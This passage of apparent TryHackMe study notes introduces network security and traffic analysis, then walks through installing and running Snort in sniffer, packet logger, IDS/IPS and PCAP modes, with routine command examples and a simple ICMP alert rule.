# Network Security and Traffic Analysis

## **--Traffic Analysis Essentials--**

### _**Introduction**_
Network Security is a set of operations for protecting data, applications, devices and systems connected to the network. It is accepted as one of the significant subdomains of cyber security. It focuses on the system design, operation and management of the architecture/infrastructure to provide network accessibility, integrity, continuity and reliability. Traffic analysis (often called Network Traffic Analysis) is a subdomain of the Network Security domain, and its primary focus is investigating the network data to identify problems and anomalies. 

This room will cover the foundations of Network Security and Traffic analysis and introduce the essential concepts of these disciplines to help you step into Traffic/Packet Analysis. We suggest completing the "[Network Fundamentals](https://tryhackme.com/module/network-fundamentals)" module before starting working in this room.

### _**Network Security and Network Data**_
Network Security  

The essential concern of Network Security focuses on two core concepts: authentication and authorisation. There are a variety of tools, technologies, and approaches to ensure and measure implementations of these two key concepts and go beyond to provide continuity and reliability. Network security operations contain three base control levels to ensure the maximum available security management.

Base Network Security Control Levels:


There are two main approaches and multiple elements under these control levels. The most common elements used in network security operations are explained below.

The main approaches:


The key elements of Access Control:


The key elements of Threat Control:


Typical Network Security Management Operation is explained in the given table:


Managed Security Services  

Not every organisation has enough resources to create dedicated groups for specific security domains. There are plenty of reasons for this: budget, employee skillset, and organisation size could determine how security operations are handled. At this point, Managed Security Services (MSS) come up to fulfil the required effort to ensure/enhance security needs. MSS are services that have been outsourced to service providers. These service providers are called Managed Security Service Providers (MSSPs). Today, most MSS are time and cost effective, can be conducted in-house or outsourced, are easy to engage, and ease the management process. There are various elements of MSS, and the most common ones are explained below.



### _**Traffic Analysis**_
Traffic Analysis / Network Traffic Analysis  

Traffic Analysis is a method of intercepting, recording/monitoring, and analysing network data and communication patterns to detect and respond to system health issues, network anomalies, and threats. The network is a rich data source, so traffic analysis is useful for security and operational matters. The operational issues cover system availability checks and measuring performance, and the security issues cover anomaly and suspicious activity detection on the network. 

Traffic analysis is one of the essential approaches used in network security, and it is part of multiple disciplines of network security operations listed below:

- Network Sniffing and Packet Analysis (Covered in [**Wireshark room**](https://tryhackme.com/room/wiresharkthebasics))
- Network Monitoring (Covered in [**Zeek room**](https://tryhackme.com/room/zeekbro))
- Intrusion Detection and Prevention (Covered in [**Snort room**](https://tryhackme.com/room/snort))  
    
- Network Forensics (Covered in [**NetworkMiner room**](https://tryhackme.com/room/networkminer))
- Threat Hunting (Covered in [**Brim room**](https://tryhackme.com/room/brim))

There are two main techniques used in Traffic Analysis:


Benefits of the Traffic Analysis:

- Provides full network visibility.
- Helps comprehensive baselining for asset tracking.
- Helps to detect/respond to anomalies and threats.

Does the Traffic Analysis Still Matter?  

The widespread usage of security tools/services and an increasing shift to cloud computing force attackers to modify their tactics and techniques to avoid detection. Network data is a pure and rich data source. Even if it is encoded/encrypted, it still provides a value by pointing to an odd, weird or unexpected pattern/situation. Therefore traffic analysis is still a must-to-have skill for any security analyst who wants to detect and respond to advanced threats.

Now you know what Traffic Analysis is and how it operates. Now use the static site to simulate a traffic analysis operation and find the flags.

## **--Snort--**

### _**Introduction**_
This room expects you to be familiar with basic Linux command-line functionalities like general system navigation and Network fundamentals (ports, protocols and traffic data). The room aims to encourage you to start working with Snort to analyse live and captured traffic.

Before joining this room, we suggest completing the ['Network Fundamentals'](https://tryhackme.com/module/network-fundamentals) module. If you have general knowledge of network basics and Linux fundamentals, you will be ready to begin! If you feel you need assistance in the Linux command line, you can always refer to our "Linux Fundamentals" rooms (here [1](https://tryhackme.com/room/linuxfundamentalspart1) [2](https://tryhackme.com/room/linuxfundamentalspart2) [3](https://tryhackme.com/room/linuxfundamentalspart3)); 

SNORT is an **open-source, rule-based** Network Intrusion Detection and Prevention System **(NIDS/NIPS)**. It was developed and still maintained by Martin Roesch, open-source contributors, and the Cisco Talos team. 

**[The official description](https://www.snort.org/):** *"__Snort is the foremost Open Source Intrusion Prevention System (IPS) in the world. Snort IPS uses a series of rules that help define malicious network activity and uses those rules to find packets that match against them and generate alerts for users.__"*

### _**Interactive Material and VM**_

### _**Introduction to IDS/IPS**_
Before diving into Snort and analysing traffic, let's have a brief overview of what an Intrusion Detection System (IDS) and Intrusion Prevention System (IPS) is. It is possible to configure your network infrastructure and use both of them, but before starting to use any of them, let's learn the differences.  
  
**Intrusion Detection System (IDS)**

IDS is a passive monitoring solution for detecting possible malicious activities/patterns, abnormal incidents, and policy violations. It is responsible for generating alerts for each suspicious event. 

There are two main types of IDS systems;

- Network Intrusion Detection System (NIDS) - NIDS monitors the traffic flow from various areas of the network. The aim is to investigate the traffic on the entire subnet. If a signature is identified, an alert is created.
- Host-based Intrusion Detection System (HIDS) - HIDS monitors the traffic flow from a single endpoint device. The aim is to investigate the traffic on a particular device. If a signature is identified, an alert is created.

  
Intrusion Prevention System (IPS)

IPS is an active protecting solution for preventing possible malicious activities/patterns, abnormal incidents, and policy violations. It is responsible for stopping/preventing/terminating the suspicious event as soon as the detection is performed.

 **There are four main types of IPS systems;**

- Network Intrusion Prevention System (NIPS) - NIPS monitors the traffic flow from various areas of the network. The aim is to protect the traffic on the entire subnet. If a signature is identified, the connection is terminated.
- Behaviour-based Intrusion Prevention System (Network Behaviour Analysis - NBA) - Behaviour-based systems monitor the traffic flow from various areas of the network. The aim is to protect the traffic on the entire subnet. If a signature is identified, **the connection is terminated.**

Network Behaviour Analysis System works similar to NIPS. The difference between NIPS and Behaviour-based is; behaviour based systems require a training period (also known as "baselining") to learn the normal traffic and differentiate the malicious traffic and threats. This model provides more efficient results against new threats.  

The system is trained to know the "normal" to detect "abnormal". The training period is crucial to avoid any false positives. In case of any security breach during the training period, the results will be highly problematic. Another critical point is to ensure that the system is well trained to recognise benign activities.   

- Wireless Intrusion Prevention System (WIPS) - WIPS monitors the traffic flow from of wireless network. The aim is to protect the wireless traffic and stop possible attacks launched from there. If a signature is identified, the connection is terminated.
- Host-based Intrusion Prevention System (HIPS) - HIPS actively protects the traffic flow from a single endpoint device. The aim is to investigate the traffic on a particular device. If a signature is identified, **the connection is terminated.**

HIPS working mechanism is similar to HIDS. The difference between them is that **while HIDS creates alerts for threats,** **HIPS stops the threats by terminating the connection.  
**

  
Detection/Prevention Techniques

There are three main detection and prevention techniques used in IDS and IPS solutions;


Summary  

**Phew!** That was a long ride and lots of information. Let's summarise the overall functions of the IDS and IPS in a nutshell.

- **IDS** can identify threats but require user assistance to stop them.
- **IPS** can identify and block the threats with less user assistance at the detection time.  
    

**Now let's talk about Snort. [Here is the rest of the official description](https://www.snort.org/) of the snort;**

_"__Snort can be deployed inline to stop these packets, as well. Snort has three primary uses: As a packet sniffer like tcpdump, as a packet logger — which is useful for network traffic debugging, or it can be used as a full-blown network intrusion prevention system. Snort can be downloaded and configured for personal and business use alike."_  

SNORT is an open-source, rule-based Network Intrusion Detection and Prevention System (NIDS/NIPS). It was developed and still maintained by Martin Roesch, open-source contributors, and the Cisco Talos team. 

Capabilities of Snort:
- Live traffic analysis
- Attack and probe detection
- Packet logging
- Protocol analysis
- Real-time alerting
- Modules & plugins
- Pre-processors
- Cross-platform support! (Linux & Windows)

Snort has three main use models:  
- Sniffer Mode - Read IP packets and prompt them in the console application.
- Packet Logger Mode - Log all IP packets (inbound and outbound) that visit the network.
- NIDS (Network Intrusion Detection System)  and NIPS (Network Intrusion Prevention System) Modes - Log/drop the packets that are deemed as malicious according to the user-defined rules.

### _**First Interaction with Snort**_
The First Interaction with Snort

First, let's verify snort is installed. The following command will show you the instance version.

`snort -V`

Before getting your hands dirty, we should ensure our configuration file is valid.  

Here **"-T"** is used for testing configuration, and **"-c"** is identifying the configuration file **(snort.conf)**.  
Note that it is possible to use an additional configuration file by pointing it with **"-c"**.

`sudo snort -c /etc/snort/snort.conf -T`

Once we use a configuration file, snort got much more power! The configuration file is an all-in-one management file of the snort. Rules, plugins, detection mechanisms, default actions and output settings are identified here. It is possible to have multiple configuration files for different purposes and cases but can only use one at runtime.  

Note that every time you start the Snort, it will automatically show the default banner and initial information about your setup. You can prevent this by using the "**\-q"** parameter.


### _**Operation Mode 1: Sniffer Mode**_
**Let's run Snort in Sniffer Mode**

Like tcpdump, Snort has various flags capable of viewing various data about the packet it is ingesting.  

Sniffer mode parameters are explained in the table below;


Let's start using each parameter and see the difference between them. Snort needs active traffic on your interface, so we need to generate traffic to see Snort in action.  

To do this, use **the traffic-generator** script (find this in the Task-Exercise folder)  

  
Sniffing with parameter "-i"  

Start the Snort instance in **verbose mode (-v)** and **use the interface (-i)** "eth0"; `sudo snort -v-i eth0`

In case you have only one interface, Snort uses it by default. The above example demonstrates to sniff on the interface named "eth0". Once you simulate the parameter -v, you will notice it will automatically use the "eth0" interface and prompt it.

**  
Sniffing with parameter "-v"**  

Start the Snort instance in **verbose mode (-v)**; `sudo snort -v`

Now run the traffic-generator script as sudo and start **ICMP/HTTP traffic**. Once the traffic is generated, snort will start showing the  packets in verbosity mode as follows;

As you can see in the given output, verbosity mode provides tcpdump like output information. Once we interrupt the sniffing with CTRL+C, it stops and summarises the sniffed packets.  

  
Sniffing with parameter "-d"  

Start the Snort instance in **dumping packet data mode (-d)**; `sudo snort -d`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start showing the  packets in verbosity mode as follows;

As you can see in the given output, packet data payload mode covers the verbose mode and provides more data.  

  
Sniffing with parameter "-de"  

Start the Snort instance in **dump (-d)** and **link-layer header grabbing (-e)** mode; `snort -d -e`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start showing the  packets in verbosity mode as follows;

Sniffing with parameter "-X"  

Start the Snort instance in **full packet dump mode (-X)**; `sudo snort -X`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start showing the  packets in verbosity mode as follows;

Note that you can use the parameters both in combined and separated form as follows;**

- snort -v
- snort -vd
- snort -de
- snort -v -d -e
- snort -X

Make sure you understand and practice each parameter with different types of traffic and discover your favourite combination.

### _**Operation Mode 2: Packet Logger Mode**_
Let's run Snort in Logger Mode  

You can use Snort as a sniffer and log the sniffed packets via logger mode. You only need to use the packet logger mode parameters, and Snort does the rest to accomplish this.

Packet logger parameters are explained in the table below;


Let's start using each parameter and see the difference between them. Snort needs active traffic on your interface, so we need to generate traffic to see Snort in action.  

**  
Logfile Ownership**

Before generating logs and investigating them, we must remember the Linux file ownership and permissions. No need to deep dive into user types and permissions. The fundamental file ownership rule; **whoever creates a file becomes the owner of the corresponding file**.  

Snort needs superuser (root) rights to sniff the traffic, so once you run the snort with the "sudo" command, the "root" account will own the generated log files. Therefore you will need "root" rights to investigate the log files. There are two different approaches to investigate the generated log files;  
  

- Elevation of privileges **-** You can elevate your privileges to examine the files. You can use the "sudo" command to execute your command as a superuser with the following command `sudo command`. You can also elevate the session privileges and switch to the superuser account to examine the generated log files with the following command: `sudo su`

- Changing the ownership of files/directories - You can also change the ownership of the file/folder to read it as your user: `sudo chown username file` or `sudo chown username -R directory` The "-R" parameter helps recursively process the files and directories.

  
Logging with parameter "-l"  

First, start the Snort instance in packet logger mode; `sudo snort -dev -l .`

Now start ICMP/HTTP traffic with the traffic-generator script.  

Once the traffic is generated, Snort will start showing the packets and log them in the target directory. You can configure the default output directory in snort.config file. However, you can use the "-l" parameter to set a target directory. Identifying the default log directory is useful for continuous monitoring operations, and the "-l" parameter is much more useful for testing purposes.

The `-l .` part of the command creates the logs in the current directory. You will need to use this option to have the logs for each exercise in their folder.

`sudo snort -dev -l .`

Now, let's check the generated log file. Note that the log file names will be different in your case.

`ls .`

As you can see, it is a single all-in-one log file. It is a binary/tcpdump format log. This is what it looks like in the folder view.

Logging with parameter "-K ASCII"  

Start the Snort instance in packet logger mode; `sudo snort -dev -K ASCII`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, Snort will start showing the  packets in verbosity mode as follows;

`sudo snort -dev -K ASCII -l .`

Now, let's check the generated log file.

`ls .`

The logs created with "-K ASCII" parameter is entirely different. There are two folders with IP address names. Let's look into them.

`ls ./<IP>`

Once we look closer at the created folders, we can see that the logs are in ASCII and categorised format, so it is possible to read them without using a Snort instance.

In a nutshell, ASCII mode provides multiple files in human-readable format, so it is possible to read the logs easily by using a text editor. By contrast with ASCII format, binary format is not human-readable and requires analysis using Snort or an application like tcpdump.

Let's compare the ASCII format with the binary format by opening both of them in a text editor. The difference between the binary log file and the ASCII log file is shown below. (Left side: binary format. Right side: ASCII format).


Reading generated logs with parameter "-r"  

Start the Snort instance in packet reader mode; `sudo snort -r`

`sudo snort -r snort.log.<number>`

**Note that** Snort can read and handle the binary like output (tcpdump and Wireshark also can handle this log format). However, if you create logs with "-K ASCII" parameter, Snort will not read them. As you can see in the above output, Snort read and displayed the log file just like in the sniffer mode.

Opening log file with tcpdump.

`sudo tcpdump -r snort.log.<number> -ntc 10`

"-r" parameter also allows users to filter the binary log files. **You can filter the processed log to see specific packets with the "-r" parameter and Berkeley Packet Filters (BPF).** 

- `sudo snort -r logname.log -X`
- `sudo snort -r logname.log icmp`
- `sudo snort -r logname.log tcp`
- `sudo snort -r logname.log 'udp and port 53'`

The output will be the same as the above, but only packets with the chosen protocol will be shown. Additionally, you can specify the number of processes with the parameter "-n". **The following command will process only the first 10 packets:** `snort -dvr logname.log -n 10`

Please use the following resources to understand how the BPF works and its use.  

- [https://en.wikipedia.org/wiki/Berkeley\_Packet\_Filter](https://en.wikipedia.org/wiki/Berkeley_Packet_Filter)
- [https://biot.com/capstats/bpf.html](https://biot.com/capstats/bpf.html)
- [https://www.tcpdump.org/manpages/tcpdump.1.html](https://www.tcpdump.org/manpages/tcpdump.1.html)

### _**Operation Mode 3: IDS/IPS**_
Snort in IDS/IPS Mode

Capabilities of Snort are not limited to sniffing and logging the traffic. IDS/IPS mode helps you manage the traffic according to user-defined rules.

**Note that** (N)IDS/IPS mode depends on the rules and configuration. **TASK-10** summarises the essential paths, files and variables. Also, **TASK-3** covers configuration testing. Here, we need to understand the operating logic first, and then we will be going into rules in **TASK-9**.  

  
Let's run Snort in IDS/IPS Mode  

NIDS mode parameters are explained in the table below;


Let's start using each parameter and see the difference between them. Snort needs active traffic on your interface, so we need to generate traffic to see Snort in action. To do this, use the traffic-generator script and sniff the traffic. 

**Once you start running IDS/IPS mode,** you need to use rules. As we mentioned earlier, we will use a pre-defined ICMP rule as an example. The defined rule will only generate alerts in any direction of ICMP packet activity.

`alert icmp any any <> any any  (msg: "ICMP Packet Found"; sid: 100001; rev:1;)`  

This rule is located in "/etc/snort/rules/local.rules".  

Remember, in this module, we will focus only on the operating modes. The rules are covered in TASK9&10. **Snort will create an "alert" file if the traffic flow triggers an alert.** **One last note;** once you start running IPS/IDS mode, the sniffing and logging mode will be semi-passive. However, you can activate the functions using the parameters discussed in previous tasks. **(-i, -v, -d, -e, -X, -l, -K ASCII)** If you don't remember the purpose of these commands, please revisit TASK4.

  
IDS/IPS mode with parameter "-c and -T"  

Start the Snort instance and test the configuration file. `sudo snort -c /etc/snort/snort.conf -T` This command will check your configuration file and prompt it if there is any misconfiguratioın in your current setting. You should be familiar with this command if you covered TASK3. If you don't remember the output of this command, **please revisit TASK4**.

  
IDS/IPS mode with parameter "-N"

Start the Snort instance and disable logging by running the following command: `sudo snort -c /etc/snort/snort.conf -N`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. This command will disable logging mode. The rest of the other functions will still be available (if activated).

The command-line output will provide the information requested with the parameters. So, if you activate verbosity (-v) or full packet dump (-X) you will still have the output in the console, but there will be no logs in the log folder.  

  
IDS/IPS mode with parameter "-D"  

Start the Snort instance in background mode with the following command: `sudo snort -c /etc/snort/snort.conf -D`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start processing the packets and accomplish the given task with additional parameters.

The command-line output will provide the information requested with the parameters. So, if you activate **verbosity (-v)** or **full packet dump (-X)** with **packet logger mode (-l)** you will still have the logs in the logs folder, but there will be no output in the console.

Once you start the background mode and want to check the corresponding process, you can easily use the "ps" command as shown below;

`ps -ef | grep snort`

If you want to stop the daemon, you can easily use the "kill" command to stop the process.

`sudo kill -9 <process id>`

Note that daemon mode is mainly used to automate the Snort. This parameter is mainly used in scripts to start the Snort service in the background. It is not recommended to use this mode unless you have a working knowledge of Snort and stable configuration.  

  
_IDS/IPS mode with parameter "-A"_

**Remember that there are several alert modes available in snort;**  

- console: Provides fast style alerts on the console screen.
- cmg: Provides basic header details with payload in hex and text format.
- **full:** Full alert mode, providing all possible information about the alert.  
    
- **fast:** Fast mode, shows the alert message, timestamp, source and destination ıp along with port numbers.
- **none:** Disabling alerting.  
    

In this section, only the **"console"** and **"cmg"** parameters provide alert information in the console. It is impossible to identify the difference between the rest of the alert modes via terminal. Differences can be identified by looking at generated logs. 

At the end of this section, we will compare the "full", "fast" and "none" modes. Remember that these parameters don't provide console output, so we will continue to identify the differences through log formats.  

  
_IDS/IPS mode with parameter "-A console"_

Console mode provides fast style alerts on the console screen. Start the Snort instance in **console** alert mode (-A console ) with the following command `sudo snort -c /etc/snort/snort.conf -A console`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

_IDS/IPS mode with parameter "-A cmg"_

Cmg mode provides basic header details with payload in hex and text format. Start the Snort instance in cmg alert mode (-A cmg ) with the following command `sudo snort -c /etc/snort/snort.conf -A cmg`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

**Let's compare the console and cmg outputs** before moving on to other alarm types. As you can see in the given outputs above, **console mode** provides basic header and rule information. **Cmg mode** provides full packet details along with rule information. 

  
_IDS/IPS mode with parameter "-A fast"_

Fast mode provides alert messages, timestamps, and source and destination IP addresses. **Remember, there is no console output in this mode.** Start the Snort instance in fast alert mode (-A fast ) with the following command `sudo snort -c /etc/snort/snort.conf -A fast`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

_IDS/IPS mode with parameter "-A full"_

Full alert mode provides all possible information about the alert. **Remember, there is no console output in this mode.** Start the Snort instance in full alert mode (-A full ) with the following command `sudo snort -c /etc/snort/snort.conf -A full`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

_IDS/IPS mode with parameter "-A none"_

Disable alerting. This mode doesn't create the alert file. However, it still logs the traffic and creates a log file in binary dump format. Remember, there is no console output in this mode. Start the Snort instance in none alert mode (-A none) with the following command `sudo snort -c /etc/snort/snort.conf -A none`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

_IDS/IPS mode: "Using rule file without configuration file"_

It is possible to run the Snort only with rules without a configuration file. Running the Snort in this mode will help you test the user-created rules. However, this mode will provide less performance.

`sudo snort -c /etc/snort/rules/local.rules -A console`

_IPS mode and dropping packets_

Snort IPS mode activated with \-Q --daq afpacket parameters. You can also activate this mode by editing snort.conf file. However, you don't need to edit snort.conf file in the scope of this room. Review the bonus task or snort manual for further information on daq and advanced configuration settings: `-Q --daq afpacket`

Activate the Data Acquisition (DAQ) modules and use the afpacket module to use snort as an IPS: `-i eth0:eth1`

Identifying interfaces note that Snort IPS require at least two interfaces to work. Now run the traffic-generator script as sudo and start ICMP/HTTP traffic.

`sudo snort -c /etc/snort/snort.conf -q -Q --daq afpacket -i eth0:eth1 -A console`

### _**Operation Mode 4: PCAP Investigation**_
Let's investigate PCAPs with Snort

Capabilities of Snort are not limited to sniffing, logging and detecting/preventing the threats. PCAP read/investigate mode helps you work with pcap files. Once you have a pcap file and process it with Snort, you will receive default traffic statistics with alerts depending on your ruleset.

Reading a pcap without using any additional parameters we discussed before will only overview the packets and provide statistics about the file. In most cases, this is not very handy. We are investigating the pcap with Snort to benefit from the rules and speed up our investigation process by using the known patterns of threats. 

Note that we are pretty close to starting to create rules. Therefore, you need to grasp the working mechanism of the Snort, learn the discussed parameters and begin combining the parameters for different purposes.

PCAP mode parameters are explained in the table below;


_Investigating single PCAP with parameter "-r"_

